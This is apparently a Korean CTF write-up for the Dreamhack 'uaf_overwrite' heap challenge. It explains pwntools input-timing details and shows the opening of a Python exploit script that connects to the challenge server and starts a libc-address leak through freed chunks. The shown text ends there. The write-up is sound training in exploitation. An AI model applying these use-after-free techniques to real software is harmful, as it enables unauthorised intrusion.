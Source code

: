 ### 주의할 점

`human_func`, `robot_func`, `custom_func`는 전부 `data`를 입력 받을 때 빼고, 전부 `scanf("%d")`로 입력을 받기 때문에 `p.sendline(str().encode)`으로 입력을 보내줘야 한다.

`custom_func`에서 `data`를 입력 받을 때만 오직 `read`로 입력 받기 때문에 개행 문자를 추가해주면 `fd`에 `\xa0`가 추가되서 `send`로 보내야 한다.

**그리고, 제일 마지막에 `printf("Data: %s\n", custom[c_idx]);`를 통해 청크의 `data`를 읽어야 하기 때문에 각 함수에서 페이로드를 보낼 때, `sendlineafter`를 통해 보내야 한다.** 

그렇게 하지 않으면, `u64(p.recvline()[:-1].ljust(8, b'\x00'))`에서 마지막에 `data`를 입력 받울 때 바이너리의 형식적인 `printf("Size: ");` 같은 출력값들이 섞여서 제대로 출력이 안되게 된다.

`human`, `robot`에는 꼭 해줄 필요가 없긴 하지만, `custom`에는 꼭 해줘야 한다.

`custom`에서 페이로드를 3번 보내는데, 이때 전부 `after(b': ', ...)`을 통해 보내면 차례대로 나오는 `printf("Size: ");`, `printf("Data: ");`, `printf("Data: %s\n", custom[c_idx]);`, `printf("Free idx: ");` 중 딱 세번째 `printf`의 `: `까지 짤려서,

`%s\n`을 통해 바로 `data\n`이 출력되고, `recvline()`으로 받을 수 있게 된다. (뒤에 `printf("Free idx: ");`가 출력되므로 신경쓸 필요 없어짐)

참고로, `sendafter(b': ')`는 `": : :"`라는 문자열에서 처음 `":"`를 만나면 바로 보낸다.

```
#!/usr/bin/env python3
# Name: uaf_overwrite.py
from pwn import *

p = remote("host3.dreamhack.games", 18315)


def human(weight, age):
    p.sendlineafter(b'>', b'1')
    p.sendlineafter(b': ', str(weight).encode())
    p.sendlineafter(b': ', str(age).encode())

    # p.sendline(str(weight).encode())
    # p.sendline(str(age).encode())


def robot(weight):
    p.sendlineafter(b'>', b'2')
    p.sendlineafter(b': ', str(weight).encode())

    # p.sendline(b'2')
    # p.sendline(str(weight).encode())


def custom(size, data, idx):
    p.sendlineafter(b'>', b'3')
    p.sendlineafter(b': ', str(size).encode())
    # 여긴 `scanf`가 아닌 `read`로 입력 받기 때문에 `send`로 보내야 함
    # 만약 `sendline`으로 보내면 data에 `\n`이 추가되서 출력되는 `data` 값이 달라져서 offset도 달라짐
    p.sendafter(b': ', data)
    p.sendlineafter(b': ', str(idx).encode())

    # p.sendline(b'3')
    # p.sendline(str(size).encode())
    # p.send(p64(data))
    # p.sendline(str(idx).encode())


# [1] Leak libc base
custom(0x500, b'random1', -1)  # 사이즈를 8바이트 단위로 `0x4f9 ~ 0x508` 까지는 같은 오프셋을 가리킴
custom(0x500, b'random2', 0)
```